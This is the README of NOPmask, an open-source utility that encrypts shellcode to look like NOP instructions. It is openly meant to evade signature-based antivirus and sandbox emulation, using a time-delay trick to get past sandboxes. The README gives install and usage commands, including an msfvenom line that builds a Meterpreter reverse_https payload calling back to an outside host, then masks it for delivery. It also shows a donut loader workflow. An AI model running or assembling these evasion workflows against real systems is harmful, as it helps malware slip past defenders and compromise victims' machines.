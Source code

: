 # NOPmask v1.0
██████████████████████████████████████████████
█▄─▀█▄─▄█─▄▄─█▄─▄▄─█▄─▀█▀─▄██▀▄─██─▄▄▄▄█▄─█─▄█
██─█▄▀─██─██─██─▄▄▄██─█▄█─███─▀─██▄▄▄▄─██─▄▀██
▀▄▄▄▀▀▄▄▀▄▄▄▄▀▄▄▄▀▀▀▄▄▄▀▄▄▄▀▄▄▀▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀

Shellcode obfuscation utility to evade signature-based detection and emulator-driven analysis.

---

## Features

- Encrypts shellcode to appear like benign NOP instructions.
- Decrypts and executes shellcode only when running on a real machine.
- Works with any operating system that runs on the AMD64 or i386 architecture.

---

## Installation

Clone the repository:

```bash
git clone https://github.com/whoamiamleo/NOPmask
cd NOPmask
```

Install dependencies:
```bash
pip install -r requirements.txt
```

---

## Usage
```console
usage: NOPmask.py [-h] -a {amd64,i386} -i INPUT -o OUTPUT -f {base64,binary}

options:
  -h, --help                        show this help message and exit
  -a, --arch {amd64,i386}           target CPU architecture
  -i, --input INPUT                 path to input file
  -o, --output OUTPUT               path to output file
  -f, --format {base64,binary}      format of output file
```

Basic usage example:
```bash
python NOPmask.py -a amd64 -i shellcode.bin -o masked_shellcode.bin -f binary
```

Example of using with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw -o raw_shellcode.bin
python NOPmask.py -a amd64 -i raw_shellcode.bin -o masked_shellcode.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_shellcode.bin -f C -v shellcode
```

Example of using with donut:
```bash
donut.exe -a 2 -i payload.dll -o loader.bin
python NOPmask.py -a amd64 -i loader.bin -o masked_loader.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_loader.bin -f C -v shellcode
```

### Warnings

1. The decryption stub modifies the memory region containing the shellcode during runtime, requiring the allocated memory space to have Read/Write/Execute (RWX) permissions to function properly.
2. The implementation incorporates a time-based emulation evasion technique that exploits the operational constraints of automated analysis systems. Since emulators prioritize speed over completeness to avoid delays for the user, the shellcode includes deliberate execution delays. Allow up to one minute for complete shellcode execution, as this timing mechanism is essential for bypassing sandboxed environments.
---

## Attribution

Written by Leopold von Niebelschuetz-Godlewski

[https://github.com/whoamiamleo/NOPmask](https://github.com/whoamiamleo/NOPmask)

Licensed under the MIT License.

If you use NOPmask in your projects, a link back or mention is appreciated!

---

## Contributing
Contributions, issues, and feature requests are welcome!
Feel free to check the [issues](https://github.com/whoamiamleo/NOPmask/issues) page or submit a pull request.

---

## License
This project is licensed under the MIT License — see the [LICENSE](https://raw.githubusercontent.com/whoamiamleo/NOPmask/main/LICENSE) file for details.